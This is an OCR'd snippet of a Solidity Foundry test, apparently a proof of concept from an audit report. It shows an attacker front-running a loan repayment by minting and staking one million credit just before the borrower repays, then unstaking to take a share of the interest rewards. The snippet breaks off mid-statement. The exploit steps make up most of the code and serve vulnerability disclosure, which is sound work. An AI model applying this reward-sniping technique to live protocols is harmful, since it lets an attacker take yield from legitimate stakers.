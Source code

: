 ```solidity
        vm.startPrank(borrower);
        collateral.approve(address(term), 100e18);
        bytes32 loanId = term.borrow(10000e18, 100e18);
        vm.stopPrank();

        skip(30 days); // repaying after 30 days

        /* --------------------------------- ATTAKER FRONTRUN  -------------------------------- */
        //Attaker is address(this)
        uint ONE_MILLION = 1000000e18;
        collateral.mint(address(this), ONE_MILLION); // 1M
        collateral.approve(address(psm), ONE_MILLION); // 1M
        psm.mintAndEnterRebase(ONE_MILLION); // 1m credit minted
        assertEq(collateral.balanceOf(address(psm)), ONE_MILLION);
        assertEq(credit.balanceOf(address(this)), ONE_MILLION);

        credit.approve(address(sgm), ONE_MILLION);
        sgm.stake(address(term), ONE_MILLION);
        assertEq(
            credit.balanceOf(address(profitManager)),
            ONE_MILLION + 100e18
        );
        assertEq(
            profitManager.termSurplusBuffer(address(term)),
            ONE_MILLION + 100e18
        );
        assertEq(
            guild.getUserGaugeWeight(address(sgm), address(term)),
            ONE_MILLION * 2 + 200e18
        ); // 2M GUILD is a weight for 1m credit

        /* ----------------------------- BOROWER REPAYS ----------------------------- */

        uint principal = term.getLoan(loanId).borrowAmount;
        uint256 interestAccured = term.getLoanDebt(loanId) - principal;

        credit.mint(borrower, interestAccured);
        vm.startPrank(borrower);
        credit.approve(address(term), principal + interestAccured);
        term.repay(loanId);
        vm.stopPrank();

        /* ----------------------------- PROFIT SHARING ----------------------------- */
        console.log(
            "Attaker credit bal before",
            credit.balanceOf(address(this))
        );
        console.log("Attaker Guild bal before", guild.balanceOf(address(this)));

        console.log(
            "------------------------------------------------------------------"
        );
        sgm.unstake(address(term), ONE_MILLION);
        uint attakerGuildRewards = guild.balanceOf(address(this));
        uint attakerCreditRewards = credit.balanceOf(address(this)) -
            ONE_MILLION;
        assertEq(attakerGuildRewards, 499950004999500000000);
        console.log(
            "Attaker credit rewards",
            attakerCreditRewards,
            "= 99.99 CREDIT"
        );
        console.log(
```